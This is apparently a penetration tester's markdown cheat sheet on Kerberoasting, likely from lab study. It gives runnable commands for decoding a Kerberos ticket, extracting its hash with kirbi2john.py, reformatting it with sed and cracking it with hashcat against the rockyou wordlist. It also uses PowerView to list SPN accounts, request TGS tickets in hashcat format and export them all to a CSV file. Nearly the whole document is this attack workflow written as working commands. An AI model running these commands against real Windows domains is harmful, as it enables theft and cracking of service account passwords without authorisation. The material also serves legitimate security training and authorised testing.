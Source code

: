 #### Place the Output into a File as .kirbi
```Shell
cat encoded_file | base64 -d > sqldev.kirbi
```

#### Extract the Kerberos Ticket using kirbi2john.py
```Shell
python2.7 kirbi2john.py sqldev.kirbi
```
Extracts ticket and places it in a file called `crack_file`, which then must be modified to use w/ hashcat

#### Modifiy crack_file for Hashcat
```Shell
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```
Saves the output to sqldev_tgs_hashcat

#### Crackthe Hash with Hashcat
```cmd.exe
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt --force
```
Cracks the hash w/ hashcat
#hashcat #tgs #tickets #kerberoasting  ^3a8c7a


### Windows - Automated / Tool Based Route

#### Use PowerView to Extract TGS Tickets
```PowerShell
Import-Module .\PowerView.ps1
```
Imports PowerView module

```PowerShell
Get-DomainUser * -spn | select samaccountname 
```
Uses PowerView tool to extract TGS Tickets. This displays the users with SPNs.  ^ea9027

#### Target a Specific User
```PowerShell
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```
PowerView tool used to download/request the TGS ticket of a specific ticket and automatically format it for Hashcat from a Windows-based host. ^6ec73d

#### Can Export All Tickets to a CSV File
```PowerShell
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation 
```
Exports all TGS tickets to a .CSV file (ilfreight_tgs.csv) from a Windows-based host.

#### To View the Contents of the .CSV File
```PowerShell
cat .\ilfreight_tgs.csv 
```
Used to view the contents of the .csv file from a Windows-based host
